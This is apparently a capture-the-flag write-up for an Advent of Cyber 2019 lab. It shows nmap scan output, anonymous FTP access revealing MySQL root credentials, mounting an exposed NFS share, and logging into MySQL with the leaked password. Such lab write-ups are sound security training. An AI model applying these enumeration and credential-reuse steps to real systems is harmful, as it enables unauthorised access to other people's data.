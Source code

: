 ## nmap results 

```c
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 500 OOPS: invalid pasv_address
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.9.3.121
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 14:6f:fc:4d:82:43:eb:e9:6e:f3:0e:01:38:f0:cb:23 (RSA)
|   256 83:33:03:d0:b4:1d:cb:8e:59:6f:13:14:c5:a2:75:b3 (ECDSA)
|_  256 ec:b1:63:c0:6d:98:fd:be:76:31:cd:b9:78:35:2a:bf (ED25519)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      20048/tcp   mountd
|   100005  1,2,3      20048/tcp6  mountd
|   100005  1,2,3      20048/udp   mountd
|   100005  1,2,3      20048/udp6  mountd
|   100021  1,3,4      41455/udp   nlockmgr
|   100021  1,3,4      44067/tcp6  nlockmgr
|   100021  1,3,4      44317/tcp   nlockmgr
|   100021  1,3,4      44991/udp6  nlockmgr
|   100024  1          35845/tcp   status
|   100024  1          53498/udp   status
|   100024  1          56829/tcp6  status
|   100024  1          57408/udp6  status
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs_acl 3 (RPC #100227)
3306/tcp open  mysql   MySQL 5.7.28
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.28
|   Thread ID: 3
|   Capabilities flags: 65535
|   Some Capabilities: LongPassword, SwitchToSSLAfterHandshake, InteractiveClient, LongColumnFlag, FoundRows, Speaks41ProtocolOld, SupportsCompression, IgnoreSigpipes, ConnectWithDatabase, ODBCClient, SupportsLoadDataLocal, Support41Auth, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, SupportsTransactions, Speaks41ProtocolNew, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: U&%3\x13\x1C)D"	HxW %qP`\x19\x14
|_  Auth Plugin Name: mysql_native_password
| ssl-cert: Subject: commonName=MySQL_Server_5.7.28_Auto_Generated_Server_Certificate
| Not valid before: 2019-12-10T23:10:36
|_Not valid after:  2029-12-07T23:10:36
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Unix`
```

-------

## FTP 

--> got one file called file.txt in ftp and it contains

```c
remember to wipe mysql:
root
ff912ABD*
```

------

## NFS

--> in NFS first of all we start with checking for shared files 

```c
showmount -e <ip>
```

--> and i found one directory 

![Pasted image 20210810133504.png](https://github.com/shivam1317/Advent-of-cyber-2019-writeup/blob/main/Advent-of-cyber-2019/Day-11/Attachments/Pasted%20image%2020210810133504.png)

--> so Let's mount it into our local machine using command 

```c
mount <ip>:/<path> <local_machine_path>
```

--> and then we got a file called creds.txt and inside that i got the below text


```c
the password is securepassword123
```

-------

## Mysql 

--> first of all i need to connect to the mysql database remotely using command :

```c
mysql -h <ip> -u <username> -p
```

--> after using credentials as **root:ff912ABD*** i got logged in !

--> after accessing database i got the password !

![Pasted image 20210810135007.png](https://github.com/shivam1317/Advent-of-cyber-2019-writeup/blob/main/Advent-of-cyber-2019/Day-11/Attachments/Pasted%20image%2020210810135007.png)


-------
